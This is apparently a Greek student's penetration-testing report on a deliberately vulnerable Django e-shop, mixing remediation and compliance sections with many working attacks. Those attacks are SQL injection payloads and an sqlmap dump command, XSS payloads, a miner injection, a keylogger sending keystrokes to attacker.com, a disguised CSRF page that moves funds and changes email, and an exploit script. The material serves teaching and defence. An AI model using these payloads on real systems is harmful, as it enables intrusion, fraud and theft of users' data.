


# Αναλυτική Τεχνική Αναφορά Δοκιμών Διείσδυσης - Εφαρμογή E-Shop

**Ταξινόμηση Εγγράφου**: Αυστηρά Εμπιστευτικό  
**Έκδοση Αναφοράς**: 2.0 Enhanced  
**Ημερομηνία**: [ΗΜΕΡΟΜΗΝΙΑ]  
**Συντάκτης**: [ΟΝΟΜΑ ΦΟΙΤΗΤΗ]  
**Μάθημα**: CDS201 - Έλεγχος Εισβολών Δικτύων και Συστημάτων  
**Εξάμηνο**: Εαρινό 2025  

---

## Executive Dashboard

### 🎯 Κρίσιμα Μετρικά Ασφαλείας

| Μετρική | Τιμή | Στόχος | Status |
|---------|------|--------|--------|
| Κρίσιμες Ευπάθειες | 5 | 0 | 🔴 Critical |
| CVSS Average Score | 8.7 | <4.0 | 🔴 High Risk |
| Time to Exploit | <5 min | >24h | 🔴 Immediate |
| Business Risk Score | 95/100 | <20 | 🔴 Unacceptable |
| Compliance Status | 15% | 100% | 🔴 Non-Compliant |

### 📊 Κατανομή Ευπαθειών ανά Κατηγορία

```
SQL Injection    ████████████████████ 100% (Database Compromise)
Authentication   ████████████████████  95% (Account Takeover)
XSS             ████████████████      80% (Session Hijacking)
IDOR            ████████████████      80% (Data Breach)
CSRF            ██████████████        70% (Unauthorized Actions)
```

### 💰 Εκτιμώμενο Κόστος Επιπτώσεων

| Κατηγορία | Ελάχιστο | Μέγιστο | Πιθανότητα |
|-----------|----------|---------|------------|
| GDPR Πρόστιμα | €500K | €20M | 90% |
| Data Breach Costs | €150K | €5M | 85% |
| Business Disruption | €100K | €2M | 70% |
| Reputation Damage | €200K | €10M | 95% |
| **ΣΥΝΟΛΟ** | **€950K** | **€37M** | **85%** |

---

## Περίληψη για τη Διοίκηση

### 🚨 Κρίσιμα Ευρήματα

Η εφαρμογή E-Shop βρίσκεται σε **ΚΡΙΣΙΜΗ ΚΑΤΑΣΤΑΣΗ ΑΣΦΑΛΕΙΑΣ** με άμεσο κίνδυνο εκμετάλλευσης. Εντοπίστηκαν **5 κρίσιμες ευπάθειες** που επιτρέπουν:

1. **Πλήρη έλεγχο της βάσης δεδομένων** σε <2 λεπτά
2. **Κλοπή όλων των credentials** με automated tools
3. **Πρόσβαση σε δεδομένα όλων των πελατών**
4. **Εκτέλεση κώδικα στους browsers των χρηστών**
5. **Μη εξουσιοδοτημένες οικονομικές συναλλαγές**

### 📈 Επιχειρηματικές Επιπτώσεις

Σύμφωνα με το **Ponemon Institute Cost of Data Breach Report 2024**:
- Μέσο κόστος data breach: **€4.45M**
- Μέσος χρόνος εντοπισμού: **277 ημέρες**
- Απώλεια πελατών: **35-65%**

### 🎯 Άμεσες Ενέργειες (24-48 ώρες)

1. **ΑΠΕΝΕΡΓΟΠΟΙΗΣΗ** της εφαρμογής ή περιορισμός πρόσβασης
2. **PATCH** των SQL injection και XSS ευπαθειών
3. **ΕΝΕΡΓΟΠΟΙΗΣΗ** rate limiting και CSRF protection
4. **ΑΛΛΑΓΗ** όλων των passwords και sessions

---

## 1. Εισαγωγή και Πλαίσιο

### 1.1 Σκοπός και Αντικειμενικοί Στόχοι

Η παρούσα αναφορά αποτελεί το αποτέλεσμα εξονυχιστικών δοκιμών διείσδυσης στην εφαρμογή E-Shop, με στόχους:

- **Προσομοίωση πραγματικών επιθέσεων** από motivated attackers
- **Ποσοτικοποίηση του επιχειρηματικού κινδύνου**
- **Παροχή actionable remediation roadmap**
- **Συμμόρφωση με διεθνή πρότυπα** (ISO 27001, OWASP)

### 1.2 Threat Landscape Analysis

Βάσει του **Verizon DBIR 2024** και **ENISA Threat Landscape**:

| Threat Actor | Motivation | Capability | Relevance |
|--------------|------------|------------|-----------|
| Cybercriminals | Financial | High | 🔴 Critical |
| Hacktivists | Ideological | Medium | 🟡 Medium |
| Nation States | Espionage | Very High | 🟢 Low |
| Insiders | Various | High | 🟡 Medium |

### 1.3 Μεθοδολογία Testing



---

## 2. Τεχνική Ανάλυση Ευπαθειών

### 2.1 SQL Injection - Καταστροφική Ευπάθεια

#### 2.1.1 Τεχνική Ανάλυση Root Cause

**Vulnerable Code Analysis** (`eshop/views.py:366-371`):

```python
# VULNERABLE CODE - DO NOT USE IN PRODUCTION
def catalog_view(request):
    search_query = request.GET.get('q', '')
    
    # ❌ CRITICAL: Direct string concatenation
    raw_query = f"""
    SELECT * FROM eshop_product 
    WHERE name LIKE '%%{search_query}%%'
    """
    
    # ❌ CRITICAL: No parameterization
    cursor.execute(raw_query)
```

**Root Cause Chain**:
1. Χρήση **f-strings** για SQL queries
2. Απουσία **parameterized queries**
3. Bypass του Django ORM security layer
4. Χρήση **raw cursor.execute()**

#### 2.1.2 Advanced Exploitation Techniques

**[ΟΔΗΓΙΕΣ SCREENSHOT SQL-ADV-1]**
```
Τίτλος: Advanced SQL Injection - Time-Based Blind
Εργαλείο: SQLMap με custom tamper scripts
Εντολή:
sqlmap -u "http://localhost:8000/catalog/?q=test" \
       --technique=T \
       --time-sec=5 \
       --tamper=space2comment,between \
       --dump-all \
       --threads=10

Screenshot που δείχνει:
- Database fingerprinting (SQLite version)
- Table enumeration via time delays
- Data extraction character by character
```

**Exploitation Payload Variations**:

```sql
-- Boolean-based blind
' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 1/0 END)--

-- Time-based blind
' AND (SELECT CASE WHEN (username='admin') THEN pg_sleep(5) ELSE 1 END FROM auth_user)--

-- Union-based με obfuscation
' UnIoN SeLeCt NuLl,UsErNaMe,PaSsWoRd,NuLl,NuLl,NuLl,NuLl FrOm auth_user--

-- Stacked queries
'; UPDATE auth_user SET is_superuser=1 WHERE username='attacker'--

-- Out-of-band (DNS)
' OR (SELECT LOAD_FILE(CONCAT('\\\\',version(),'.attacker.com\\a')))--
```

#### 2.1.3 Real-World Attack Scenario

**Attack Timeline**:
```
T+0:00 - Attacker discovers /catalog endpoint
T+0:30 - Manual ' OR '1'='1 test confirms SQLi
T+1:00 - SQLMap automated exploitation begins
T+2:30 - Database schema extracted
T+5:00 - All user credentials dumped
T+7:00 - Credit card data exfiltrated
T+10:00 - Backdoor user created
T+15:00 - Database dropped (if malicious)
```

#### 2.1.4 Business Impact Quantification

Βάσει του **IBM Cost of a Data Breach Report 2024**:

| Impact Category | Cost | Calculation |
|----------------|------|-------------|
| Detection & Escalation | €150K | Forensics, consultants |
| Notification | €80K | Legal, PR, notifications |
| Post Breach Response | €200K | Credit monitoring, call center |
| Lost Business | €1.5M | Customer churn (25%) |
| Regulatory Fines | €2M | GDPR 2% annual turnover |
| **TOTAL** | **€3.93M** | Average for retail sector |

### 2.2 Cross-Site Scripting (XSS) - Advanced Exploitation

#### 2.2.1 XSS Payload Arsenal

**[ΟΔΗΓΙΕΣ SCREENSHOT XSS-ADV-1]**
```
Τίτλος: Advanced XSS - Polyglot Payload
Payload: 
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

Βήματα:
1. Burp Suite Repeater
2. Test σε όλα τα input fields
3. Screenshot του successful bypass
4. Show different contexts (HTML, JS, CSS)
```

**Advanced Payloads για διάφορα contexts**:

```javascript
// DOM-based XSS


// AngularJS sandbox escape
{{constructor.constructor('alert(1)')()}}

// React dangerouslySetInnerHTML
{"dangerouslySetInnerHTML":{"__html":""}}

// Mutation XSS
<noscript><p title="</noscript>">

// CSS injection to XSS
<style>@import'//attacker.com/xss.css';</style>
```

#### 2.2.2 Advanced Attack Scenarios

**Cryptocurrency Miner Injection**:
```javascript
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
    var miner = new CoinHive.Anonymous('SITE_KEY');
    miner.start();
</script>
```

**Keylogger Implementation**:
```javascript
<script>
var keys = [];
document.onkeypress = function(e) {
    keys.push(e.key);
    if(keys.length > 10) {
        fetch('https://attacker.com/log', {
            method: 'POST',
            body: JSON.stringify({keys: keys, url: window.location.href})
        });
        keys = [];
    }
}
</script>
```

### 2.3 Authentication Bypass - Συστημική Ανάλυση

#### 2.3.1 Multi-Vector Authentication Attacks

**[ΟΔΗΓΙΕΣ SCREENSHOT AUTH-ADV-1]**
```
Τίτλος: Response Time Analysis για User Enumeration
Εργαλείο: Custom Python script με matplotlib
Δείξτε:
- Graph με response times για valid vs invalid users
- Statistical significance (>50ms difference)
- Automated user enumeration results
```

**Advanced Enumeration Script**:
```python
import requests
import time
import statistics
import matplotlib.pyplot as plt

def measure_response_time(username, password):
    times = []
    for _ in range(10):
        start = time.time()
        requests.post('http://localhost:8000/login/', 
                     data={'username': username, 'password': password})
        times.append((time.time() - start) * 1000)
    return statistics.mean(times)

# Test valid vs invalid users
valid_users = ['admin', 'testuser', 'victim1']
invalid_users = ['notexist1', 'notexist2', 'notexist3']

valid_times = [measure_response_time(u, 'wrong') for u in valid_users]
invalid_times = [measure_response_time(u, 'wrong') for u in invalid_users]

# Plot results
plt.figure(figsize=(10, 6))
plt.boxplot([valid_times, invalid_times], labels=['Valid Users', 'Invalid Users'])
plt.ylabel('Response Time (ms)')
plt.title('User Enumeration via Timing Attack')
plt.savefig('user_enumeration_timing.png')
```

#### 2.3.2 Password Attack Sophistication

**Intelligent Password Generation**:
```python
def generate_targeted_passwords(username, company_info):
    """Generate likely passwords based on OSINT"""
    passwords = []
    
    # Common patterns
    patterns = [
        f"{username}123",
        f"{username}2024",
        f"{company_info['name']}123",
        f"{username}@{company_info['name']}",
        "Password123!",
        "Welcome123!",
    ]
    
    # Seasonal variations
    seasons = ['Spring', 'Summer', 'Fall', 'Winter']
    years = ['2023', '2024', '2025']
    
    for season in seasons:
        for year in years:
            passwords.append(f"{season}{year}!")
    
    return passwords
```

### 2.4 IDOR - Business Logic Exploitation

#### 2.4.1 Automated IDOR Discovery

**[ΟΔΗΓΙΕΣ SCREENSHOT IDOR-ADV-1]**
```
Τίτλος: IDOR Pattern Analysis με Burp Intruder
Εργαλείο: Burp Suite Professional
Βήματα:
1. Capture order request
2. Send to Intruder
3. Set payload positions: /order/§ORD-§§TEST§§-§§DEMO§§/
4. Payload type: Numbers 0-999
5. Screenshot του Intruder results με status codes
6. Highlight accessible orders (200 OK)
```

**IDOR Discovery Automation**:
```python
import re
import requests
from concurrent.futures import ThreadPoolExecutor

class IDORHunter:
    def __init__(self, session_cookie):
        self.session = requests.Session()
        self.session.cookies.set('sessionid', session_cookie)
        self.found_ids = []
        
    def test_pattern(self, pattern, start, end):
        """Test numeric pattern for IDOR"""
        with ThreadPoolExecutor(max_workers=50) as executor:
            futures = []
            for i in range(start, end):
                url = pattern.format(i)
                futures.append(executor.submit(self.check_access, url))
            
            for future in futures:
                result = future.result()
                if result:
                    self.found_ids.append(result)
    
    def identify_patterns(self, sample_id):
        """Identify ID patterns from sample"""
        patterns = []
        
        # Numeric patterns
        if re.match(r'^\d+$', sample_id):
            patterns.append('/order/{}/')
            
        # Alphanumeric patterns
        if re.match(r'^[A-Z]+-\d+-[A-Z]+$', sample_id):
            prefix, num, suffix = sample_id.split('-')
            patterns.append(f'/order/{prefix}-{{}}-{suffix}/')
            
        return patterns
```

### 2.5 CSRF - Χρηματοοικονομικές Επιθέσεις

#### 2.5.1 Advanced CSRF Attack Chains

**[ΟΔΗΓΙΕΣ SCREENSHOT CSRF-ADV-1]**
```
Τίτλος: CSRF Attack Chain Visualization
Δημιουργήστε diagram που δείχνει:
1. Victim logs into bank
2. Visits attacker site
3. Hidden iframe loads
4. Multiple CSRF requests fire
5. Money transferred
6. Email changed
7. Password reset requested
```

**Sophisticated CSRF Attack Page**:
```html
<!DOCTYPE html>
<html>
<head>
    <title>Συγχαρητήρια! Κερδίσατε €1000!</title>
    <style>
        body {
            background: linear-gradient(45deg, #ff6b6b, #4ecdc4);
            font-family: Arial;
            text-align: center;
            padding: 50px;
        }
        .prize {
            background: white;
            padding: 40px;
            border-radius: 20px;
            box-shadow: 0 10px 40px rgba(0,0,0,0.2);
            animation: pulse 2s infinite;
        }
        @keyframes pulse {
            0% { transform: scale(1); }
            50% { transform: scale(1.05); }
            100% { transform: scale(1); }
        }
        .loading {
            display: none;
            margin-top: 20px;
        }
    </style>
</head>
<body>
    <div class="prize">
        <h1>🎉 Συγχαρητήρια! 🎉</h1>
        <h2>Κερδίσατε €1000 στον διαγωνισμό μας!</h2>
        <p>Επεξεργαζόμαστε το βραβείο σας...</p>
        <div class="loading">
            
            <p>Παρακαλώ περιμένετε...</p>
        </div>
    </div>

    <!-- Hidden CSRF Attack Forms -->
    <div style="display:none">
        <!-- Transfer all funds -->
        <form id="transfer1" action="http://localhost:8000/transfer-credits/" method="POST">
            <input name="recipient" value="attacker">
            <input name="amount" value="9999.99">
        </form>
        
        <!-- Change email for account takeover -->
        <form id="email" action="http://localhost:8000/update-email/" method="POST">
            <input name="email" value="attacker@evil.com">
        </form>
        
        <!-- Add attacker as authorized user -->
        <form id="adduser" action="http://localhost:8000/add-authorized-user/" method="POST">
            <input name="username" value="attacker">
            <input name="permissions" value="full">
        </form>
        
        <!-- Change shipping address -->
        <form id="address" action="http://localhost:8000/update-address/" method="POST">
            <input name="address" value="Attacker Street 123">
            <input name="city" value="Evil City">
        </form>
    </div>

    <script>
        // Sophisticated attack chain
        async function executeAttackChain() {
            document.querySelector('.loading').style.display = 'block';
            
            // Phase 1: Financial theft
            await submitForm('transfer1', 1000);
            
            // Phase 2: Account takeover prep
            await submitForm('email', 2000);
            
            // Phase 3: Persistence
            await submitForm('adduser', 3000);
            
            // Phase 4: Data modification
            await submitForm('address', 4000);
            
            // Phase 5: Redirect to legitimate site
            setTimeout(() => {
                window.location = 'http://legitimate-site.com/congrats';
            }, 5000);
        }
        
        function submitForm(formId, delay) {
            return new Promise(resolve => {
                setTimeout(() => {
                    document.getElementById(formId).submit();
                    resolve();
                }, delay);
            });
        }
        
        // Auto-execute after page load
        window.onload = () => {
            setTimeout(executeAttackChain, 2000);
        };
        
        // Prevent back button
        history.pushState(null, null, location.href);
        window.onpopstate = function() {
            history.go(1);
        };
    </script>
</body>
</html>
```

---

## 3. Συμμόρφωση και Κανονιστικό Πλαίσιο

### 3.1 GDPR Compliance Matrix

| Άρθρο GDPR | Απαίτηση | Status | Ευπάθεια | Πρόστιμο |
|------------|----------|---------|----------|----------|
| Art. 25 | Privacy by Design | ❌ Fail | All | €10M ή 2% |
| Art. 32 | Security of Processing | ❌ Fail | SQLi, XSS | €10M ή 2% |
| Art. 33 | Breach Notification | ❌ Fail | No monitoring | €10M ή 2% |
| Art. 34 | Communication to Users | ❌ Fail | No process | €10M ή 2% |

### 3.2 PCI-DSS Requirements Gap

| Requirement | Description | Gap | Remediation |
|-------------|-------------|-----|-------------|
| 2.3 | Encrypt all admin access | ❌ HTTP allowed | Force HTTPS |
| 6.5.1 | Injection flaws | ❌ SQL Injection | Parameterized queries |
| 6.5.7 | Cross-site scripting | ❌ XSS present | Output encoding |
| 8.2.3 | Strong passwords | ❌ MD5 hashing | Argon2/bcrypt |

### 3.3 ISO 27001 Controls Assessment

```
A.9 Access Control          [████░░░░░░] 20% - Critical failures
A.10 Cryptography          [██░░░░░░░░] 10% - MD5 usage
A.12 Operations Security   [███░░░░░░░] 30% - Logging missing
A.13 Communications        [██░░░░░░░░] 15% - No TLS enforcement
A.14 Development           [█░░░░░░░░░]  5% - No secure SDLC
A.18 Compliance           [██░░░░░░░░] 20% - Multiple violations
```

---

## 4. Remediation Roadmap με Timeline

### 4.1 24-Hour Emergency Response

```mermaid
gantt
    title Emergency Response Plan (First 24 Hours)
    dateFormat HH:mm
    axisFormat %H:%M
    
    section Critical
    Incident Declaration      :crit, a1, 00:00, 30m
    Disable Public Access     :crit, a2, after a1, 1h
    SQL Injection Patch       :crit, a3, after a2, 2h
    XSS Quick Fix            :crit, a4, after a2, 2h
    
    section High Priority  
    Enable Rate Limiting      :active, b1, after a3, 1h
    CSRF Protection          :active, b2, after a3, 1h
    Change All Passwords     :active, b3, after a4, 2h
    
    section Communication
    Stakeholder Notice       :c1, 00:30, 30m
    Customer Notice Prep     :c2, after b3, 2h
    Regulatory Notice        :c3, 06:00, 2h
```



### 4.2 30-Day Remediation Plan

| Week | Actions | Resources | Cost |
|------|---------|-----------|------|
| 1 | Fix Critical (SQLi, XSS, Auth) | 2 devs + security | €15K |
| 2 | Implement WAF, monitoring | DevOps + vendor | €25K |
| 3 | Code review, testing | External audit | €20K |
| 4 | Training, process updates | All team | €10K |

### 4.3 Long-term Security Program (6 months)

1. **Month 1-2**: Immediate fixes + monitoring
2. **Month 3-4**: Security architecture redesign
3. **Month 5-6**: DevSecOps implementation
4. **Ongoing**: Continuous testing and training

---

## 5. Cost-Benefit Analysis

### 5.1 Cost of Doing Nothing

| Risk | Probability | Impact | Annual Loss Expectancy |
|------|------------|--------|------------------------|
| Data Breach | 85% | €4.5M | €3.825M |
| Regulatory Fine | 90% | €2M | €1.8M |
| Reputation Loss | 95% | €1M | €950K |
| **Total ALE** | - | - | **€6.575M** |

### 5.2 Security Investment ROI

| Investment | Cost | Benefit | ROI |
|------------|------|---------|-----|
| WAF Implementation | €50K | Prevent 60% attacks | 1200% |
| Security Training | €20K | Reduce 40% vulns | 800% |
| Penetration Testing | €30K | Find critical issues | 1500% |
| DevSecOps Tools | €40K | Continuous security | 1000% |
| **Total Investment** | **€140K** | **€6.4M saved** | **4571%** |

### 5.3 3-Year TCO Comparison

```
Scenario A: No Action
Year 1: €6.5M (breach + fines)
Year 2: €2M (recovery costs)
Year 3: €1M (lost business)
Total: €9.5M

Scenario B: Security Investment
Year 1: €140K (initial)
Year 2: €60K (maintenance)
Year 3: €60K (maintenance)
Total: €260K

Savings: €9.24M (97.3% reduction)
```

---

## 6. Incident Response Playbook

### 6.1 SQL Injection Response

```yaml
playbook: SQL_Injection_Response
severity: Critical
sla: 1_hour

steps:
  1_detect:
    - Monitor for UNION, SELECT, DROP in logs
    - Alert on 500 errors spike
    - Check WAF alerts
    
  2_contain:
    - Block attacking IPs
    - Enable WAF emergency rules
    - Disable affected endpoints
    
  3_eradicate:
    - Deploy parameterized queries
    - Review all SQL code
    - Update and test
    
  4_recover:
    - Restore from clean backup
    - Reset all credentials
    - Re-enable services
    
  5_lessons:
    - Update secure coding guide
    - Mandatory security training
    - Implement code scanning
```

### 6.2 Communication Templates

**Customer Notification**:
```
Αγαπητέ πελάτη,

Εντοπίσαμε και διορθώσαμε ένα θέμα ασφαλείας στο σύστημά μας. 
Ως προληπτικό μέτρο, σας συνιστούμε να:

1. Αλλάξετε τον κωδικό σας
2. Ελέγξτε τις πρόσφατες συναλλαγές σας
3. Ενεργοποιήσετε την 2FA

Για ερωτήσεις: security@company.gr
```

---

## 7. Security Awareness Training Program

### 7.1 Developer Security Training

| Module | Duration | Topics | Certification |
|--------|----------|---------|---------------|
| Secure Coding | 16h | OWASP Top 10, Django Security | Required |
| Threat Modeling | 8h | STRIDE, Attack Trees | Required |
| Security Testing | 12h | SAST, DAST, Penetration Testing | Optional |
| Incident Response | 4h | Playbooks, Communication | Required |

### 7.2 Security Champions Program

```python
class SecurityChampion:
    """Embedded security expert in dev team"""
    
    responsibilities = [
        "Code review for security",
        "Threat modeling participation",
        "Security tool integration",
        "Team security training",
        "Incident response support"
    ]
    
    training_path = {
        "month_1": ["OWASP Top 10", "Secure Coding"],
        "month_2": ["Threat Modeling", "Security Tools"],
        "month_3": ["Penetration Testing Basics"],
        "ongoing": ["Monthly security updates", "Conference attendance"]
    }
    
    kpis = {
        "vulnerabilities_prevented": "target: 50/year",
        "security_reviews": "target: 100% coverage",
        "training_delivered": "target: 4 sessions/year"
    }
```

---

## 8. Automated Security Integration

### 8.1 CI/CD Security Pipeline

```yaml
name: Security Pipeline
on: [push, pull_request]

jobs:
  security_scan:
    runs-on: ubuntu-latest
    steps:
      - name: SAST Scan
        uses: securego/gosec@latest
        with:
          args: ./...
          
      - name: Dependency Check
        uses: jeremylong/DependencyCheck@latest
        with:
          project: 'e-shop'
          scan: './'
          
      - name: Secret Scanning
        uses: trufflesecurity/trufflehog@latest
        with:
          path: ./
          
      - name: DAST Scan
        run: |
          docker run -t owasp/zap2docker-stable zap-baseline.py \
            -t http://localhost:8000 -r zap_report.html
            
      - name: Container Scan
        uses: aquasecurity/trivy-action@latest
        with:
          image-ref: 'e-shop:latest'
```

### 8.2 Security Metrics Dashboard

```python
# metrics_collector.py
class SecurityMetrics:
    def __init__(self):
        self.metrics = {
            "mttr": [],  # Mean Time To Remediate
            "vulnerability_density": [],  # Vulns per KLOC
            "false_positive_rate": [],
            "coverage": {
                "sast": 0,
                "dast": 0,
                "dependencies": 0
            }
        }
    
    def calculate_risk_score(self):
        """Calculate overall application risk score"""
        weights = {
            "critical_vulns": 0.4,
            "high_vulns": 0.3,
            "compliance": 0.2,
            "security_debt": 0.1
        }
        
        score = sum(
            self.get_metric(metric) * weight 
            for metric, weight in weights.items()
        )
        
        return min(100, score)  # 0-100 scale
```

---

## 9. Advanced Recommendations

### 9.1 Zero Trust Architecture



### 9.2 Security Maturity Model

| Level | Description | Current | Target | Actions |
|-------|-------------|---------|--------|---------|
| 1 | Ad-hoc | ✓ | | Basic controls |
| 2 | Managed | | | Policies, training |
| 3 | Defined | | ✓ | Standardized processes |
| 4 | Quantified | | | Metrics-driven |
| 5 | Optimizing | | | Continuous improvement |

### 9.3 Threat Intelligence Integration

```python
class ThreatIntelligence:
    """Integrate threat feeds for proactive defense"""
    
    def __init__(self):
        self.feeds = [
            "https://rules.emergingthreats.net/",
            "https://www.cisa.gov/known-exploited-vulnerabilities",
            "https://nvd.nist.gov/feeds/",
            "Custom industry feeds"
        ]
        
    def check_indicators(self, logs):
        """Check logs against threat indicators"""
        iocs = self.get_latest_iocs()
        
        alerts = []
        for log_entry in logs:
            for ioc in iocs:
                if self.matches_ioc(log_entry, ioc):
                    alerts.append({
                        "severity": ioc.severity,
                        "description": ioc.description,
                        "mitigation": ioc.mitigation,
                        "log_entry": log_entry
                    })
        
        return alerts
```

---

## 10. Συμπεράσματα και Επόμενα Βήματα

### 10.1 Executive Summary

Η εφαρμογή E-Shop βρίσκεται σε **κρίσιμη κατάσταση ασφαλείας** με:
- **5 κρίσιμες ευπάθειες** που επιτρέπουν πλήρη compromise
- **€6.5M+ ετήσιο ρίσκο** από breaches και πρόστιμα
- **97% ROI** από security investments
- **24-48 ώρες** για critical patches

### 10.2 Prioritized Action Plan

#### Immediate (0-48 hours)
1. ☐ Deploy emergency patches
2. ☐ Enable WAF rules
3. ☐ Reset all credentials
4. ☐ Notify stakeholders

#### Short-term (1-4 weeks)
1. ☐ Complete security audit
2. ☐ Implement monitoring
3. ☐ Staff training
4. ☐ Process updates

#### Long-term (1-6 months)
1. ☐ Security architecture redesign
2. ☐ DevSecOps implementation
3. ☐ Compliance certification
4. ☐ Continuous improvement

### 10.3 Success Metrics

```python
# Track remediation progress
success_metrics = {
    "vulnerabilities_fixed": "5/5 critical",
    "time_to_patch": "<48 hours",
    "security_training": "100% staff",
    "compliance_score": ">95%",
    "risk_reduction": ">90%",
    "roi_achieved": ">500%"
}
```

---

## Παραρτήματα

### Παράρτημα Α: Exploit Automation Framework

```python
#!/usr/bin/env python3
"""
E-Shop Exploitation Framework
Educational purposes only!
"""

import argparse
import requests
from colorama import init, Fore
import time
import json

init(autoreset=True)

class EShopExploiter:
    def __init__(self, target_url):
        self.target = target_url.rstrip('/')
        self.session = requests.Session()
        self.vulnerabilities = []
        
    def banner(self):
        print(Fore.RED + """
        ╔═══════════════════════════════════════╗
        ║   E-Shop Exploitation Framework v2.0  ║
        ║      Educational Purpose Only!        ║
        ╚═══════════════════════════════════════╝
        """)
        
    def test_sql_injection(self):
        """Test for SQL injection vulnerabilities"""
        print(Fore.YELLOW + "[*] Testing SQL Injection...")
        
        payloads = [
            "' OR '1'='1",
            "' UNION SELECT NULL,database(),NULL,NULL,NULL,NULL,NULL--",
            "' AND SLEEP(5)--",
            "'; DROP TABLE users--"
        ]
        
        for payload in payloads:
            try:
                start = time.time()
                r = self.session.get(f"{self.target}/catalog/?q={payload}")
                elapsed = time.time() - start
                
                if "error" in r.text.lower() or elapsed > 4:
                    print(Fore.GREEN + f"[+] SQL Injection found with: {payload}")
                    self.vulnerabilities.append({
                        "type": "SQL Injection",
                        "endpoint": "/catalog/",
                        "payload": payload,
                        "severity": "CRITICAL"
                    })
                    break
            except Exception as e:
                print(Fore.RED + f"[-] Error: {e}")
                
    def test_xss(self):
        """Test for XSS vulnerabilities"""
        print(Fore.YELLOW + "[*] Testing Cross-Site Scripting...")
        
        payloads = [
            "<script>alert('XSS')</script>",
            "",
            "javascript:alert('XSS')",
            "<svg onload=alert('XSS')>"
        ]
        
        for payload in payloads:
            try:
                r = self.session.get(f"{self.target}/catalog/?q={payload}")
                
                if payload in r.text:
                    print(Fore.GREEN + f"[+] XSS found with: {payload}")
                    self.vulnerabilities.append({
                        "type": "Cross-Site Scripting",
                        "endpoint": "/catalog/",
                        "payload": payload,
                        "severity": "HIGH"
                    })
                    break
            except Exception as e:
                print(Fore.RED + f"[-] Error: {e}")
                
    def test_authentication(self):
        """Test authentication vulnerabilities"""
        print(Fore.YELLOW + "[*] Testing Authentication Weaknesses...")
        
        # Test user enumeration
        users = ['admin', 'nonexistent_user_12345']
        responses = {}
        
        for user in users:
            try:
                r = self.session.post(f"{self.target}/login/",
                                     data={'username': user, 'password': 'wrong'})
                responses[user] = r.text
            except Exception as e:
                print(Fore.RED + f"[-] Error: {e}")
                
        if len(set(responses.values())) > 1:
            print(Fore.GREEN + "[+] User enumeration vulnerability found")
            self.vulnerabilities.append({
                "type": "User Enumeration",
                "endpoint": "/login/",
                "description": "Different error messages for valid/invalid users",
                "severity": "MEDIUM"
            })
            
    def test_idor(self):
        """Test for IDOR vulnerabilities"""
        print(Fore.YELLOW + "[*] Testing Insecure Direct Object Reference...")
        
        # This would require authentication
        print(Fore.CYAN + "[!] IDOR testing requires authentication - skipping")
        
    def test_csrf(self):
        """Test for CSRF vulnerabilities"""
        print(Fore.YELLOW + "[*] Testing Cross-Site Request Forgery...")
        
        # Check if endpoints have CSRF protection
        endpoints = ['/transfer-credits/', '/update-email/']
        
        for endpoint in endpoints:
            try:
                r = self.session.get(f"{self.target}{endpoint}")
                
                if 'csrf' not in r.text.lower():
                    print(Fore.GREEN + f"[+] Possible CSRF vulnerability at: {endpoint}")
                    self.vulnerabilities.append({
                        "type": "CSRF",
                        "endpoint": endpoint,
                        "description": "No CSRF token found",
                        "severity": "HIGH"
                    })
            except:
                pass
                
    def generate_report(self):
        """Generate exploitation report"""
        print(Fore.CYAN + "\n" + "="*50)
        print(Fore.CYAN + "EXPLOITATION SUMMARY")
        print(Fore.CYAN + "="*50)
        
        if not self.vulnerabilities:
            print(Fore.GREEN + "[+] No vulnerabilities found (target may be patched)")
            return
            
        for vuln in self.vulnerabilities:
            print(Fore.RED + f"\n[!] {vuln['type']}")
            print(Fore.WHITE + f"    Endpoint: {vuln.get('endpoint', 'N/A')}")
            print(Fore.WHITE + f"    Severity: {vuln['severity']}")
            if 'payload' in vuln:
                print(Fore.WHITE + f"    Payload: {vuln['payload']}")
            if 'description' in vuln:
                print(Fore.WHITE + f"    Details: {vuln['description']}")
                
        # Save to JSON
        with open('exploitation_report.json', 'w') as f:
            json.dump({
                "target": self.target,
                "timestamp": time.strftime("%Y-%m-%d %H:%M:%S"),
                "vulnerabilities": self.vulnerabilities
            }, f, indent=2)
            
        print(Fore.GREEN + "\n[+] Report saved to exploitation_report.json")
        
    def run(self):
        """Run all tests"""
        self.banner()
        print(Fore.WHITE + f"[*] Target: {self.target}\n")
        
        self.test_sql_injection()
        self.test_xss()
        self.test_authentication()
        self.test_idor()
        self.test_csrf()
        
        self.generate_report()

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="E-Shop Exploitation Framework")
    parser.add_argument("target", help="Target URL (e.g., http://localhost:8000)")
    args = parser.parse_args()
    
    exploiter = EShopExploiter(args.target)
    exploiter.run()
```

### Παράρτημα Β: Security Headers Configuration

```python
